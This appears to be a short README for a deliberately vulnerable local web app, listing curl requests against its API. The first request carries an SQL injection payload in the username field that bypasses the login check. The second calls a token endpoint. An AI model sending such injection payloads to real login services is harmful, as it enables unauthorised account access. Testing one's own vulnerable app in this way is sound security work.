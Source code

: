 # Vulerability Engine Curls

## Login api with sql injection

```curl
curl --location 'http://localhost:3000/login' \
--header 'Content-Type: application/json' \
--data '{
    "username": "temp'\'' OR 1 = 1 LIMIT 1 --",
    "password": "prince123"
}'
```

## Generate token with proper authentication

```curl
curl --location 'http://localhost:3000/generatetoken?token=<VALID_TOKEN>'
```
